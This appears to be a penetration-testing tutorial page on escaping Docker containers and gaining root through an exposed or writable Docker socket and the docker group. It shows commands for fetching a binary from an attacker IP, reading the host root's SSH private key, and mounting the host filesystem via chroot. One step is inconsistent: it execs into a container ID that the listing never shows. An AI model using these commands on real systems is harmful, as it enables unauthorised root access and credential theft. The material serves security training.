 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# Docker

## **Docker Shared Directories**

When using Docker, shared directories (volume mounts) can bridge the gap between the host system and the container's filesystem. With shared directories, specific directories or files on the host system can be made accessible within the container.

When we get access to the docker container and enumerate it locally, we might find additional (non-standard) directories on the docker’s filesystem.

## Docker Sockets

A Docker socket or Docker daemon socket is a special file that allows us and processes to communicate with the Docker daemon. This communication occurs either through a Unix socket or a network socket, depending on the configuration of our Docker setup.

It acts as a bridge, facilitating communication between the Docker client and the Docker daemon. When we issue a command through the Docker CLI, the Docker client sends the command to the Docker socket, and the Docker daemon, in turn, processes the command and carries out the requested actions.

Nevertheless, Docker sockets require appropriate permissions to ensure secure communication and prevent unauthorised access. Access to the Docker socket is typically restricted to specific users or user groups, ensuring that only trusted individuals can issue commands and interact with the Docker daemon.

By exposing the Docker socket over a network interface, we can remotely manage Docker hosts, issue commands, and control containers and other resources. This remote API access expands the possibilities for distributed Docker setups and remote management scenarios. However, depending on the configuration, there are many ways where automated processes or tasks can be stored. Those files can contain very useful information for us that we can use to escape the Docker container.

```shell-session
user@container:~/app$ ls -la

total 8
drwxr-xr-x 1 user        user        4096 Jun 30 15:12 .
drwxr-xr-x 1 root        root        4096 Jun 30 15:12 ..
srw-rw---- 1 root        root           0 Jun 30 15:27 docker.sock
```

From here on, we can use the `docker` binary to interact with the socket and enumerate what docker containers are already running. If not installed, then we can download it [here](https://master.dockerproject.com/linux/x86_64/docker) and upload it to the Docker container.

```shell-session
user@container:/tmp$ wget https://10.10.15.133:443/docker -O docker
user@container:/tmp$ chmod +x docker
user@container:/tmp$ ls -l

-rwxr-xr-x 1 user user 0 Jun 30 15:27 docker

user@container:~/tmp$ /tmp/docker -H unix:///app/docker.sock ps

CONTAINER ID     IMAGE         COMMAND                 CREATED       STATUS           PORTS     NAMES
3fe8a4782311     main_app      "/docker-entry.s..."    3 days ago    Up 12 minutes    443/tcp   app
<SNIP>
```

Now, we can log in to the new privileged Docker container with the ID `7ae3bcc818af` and navigate to the `/hostsystem`.

```shell-session
user@container:/app$ /tmp/docker -H unix:///app/docker.sock exec -it 7ae3bcc818af /bin/bash

root@7ae3bcc818af:~# cat /hostsystem/root/.ssh/id_rsa

-----BEGIN RSA PRIVATE KEY-----
<SNIP>
```

From there, we can again try to grab the private SSH key and log in as root or as any other user on the system with a private SSH key in its folder.

## Docker Group

To gain root privileges through Docker, the user we are logged in with must be in the `docker` group. This allows us to use and control the Docker daemon.

```bash
uid=1000(docker-user) gid=1000(docker-user) groups=1000(docker-user),116(docker)
```

Alternatively, Docker may have SUID set, or we are in the Sudoers file, which permits us to run `docker` as root. All three options allow us to work with Docker to escalate our privileges.

Most hosts have a direct internet connection because the base images and containers must be downloaded. However, many hosts may be disconnected from the internet at night and outside working hours for security reasons. However, if these hosts are located in a network where, for example, a web server has to pass through, it can still be reached.

To see which images exist and which we can access, we can use the following command:

{% code title="Command" %}
```bash
docker image ls
```
{% endcode %}

{% code title="Example Output" %}
```bash
REPOSITORY                           TAG                 IMAGE ID       CREATED         SIZE
ubuntu                               20.04               20fffa419e3a   2 days ago    72.8MB
```
{% endcode %}

## Docker Socket

A case that can also occur is when the Docker socket is writable. Usually, this socket is located in `/var/run/docker.sock`. However, the location can understandably be different. Because basically, this can only be written by the root or docker group. If we act as a user, not in one of these two groups, and the Docker socket still has the privileges to be writable, then we can still use this case to escalate our privileges.

```shell-session
docker-user@nix02:~$ docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash

root@ubuntu:~# ls -l

total 68
lrwxrwxrwx   1 root root     7 Apr 23  2020 bin -> usr/bin
drwxr-xr-x   4 root root  4096 Sep 22 11:34 boot
drwxr-xr-x   2 root root  4096 Oct  6  2021 cdrom
drwxr-xr-x  19 root root  3940 Oct 24 13:28 dev
drwxr-xr-x 100 root root  4096 Sep 22 13:27 etc
drwxr-xr-x   3 root root  4096 Sep 22 11:06 home
lrwxrwxrwx   1 root root     7 Apr 23  2020 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Apr 23  2020 libx32 -> usr/libx32
drwx------   2 root root 16384 Oct  6  2021 lost+found
drwxr-xr-x   2 root root  4096 Oct 24 13:28 media
drwxr-xr-x   2 root root  4096 Apr 23  2020 mnt
drwxr-xr-x   2 root root  4096 Apr 23  2020 opt
dr-xr-xr-x 307 root root     0 Oct 24 13:28 proc
drwx------   6 root root  4096 Sep 26 21:11 root
drwxr-xr-x  28 root root   920 Oct 24 13:32 run
lrwxrwxrwx   1 root root     8 Apr 23  2020 sbin -> usr/sbin
drwxr-xr-x   7 root root  4096 Oct  7  2021 snap
drwxr-xr-x   2 root root  4096 Apr 23  2020 srv
dr-xr-xr-x  13 root root     0 Oct 24 13:28 sys
drwxrwxrwt  13 root root  4096 Oct 24 13:44 tmp
drwxr-xr-x  14 root root  4096 Sep 22 11:11 usr
drwxr-xr-x  13 root root  4096 Apr 23  2020 var
```
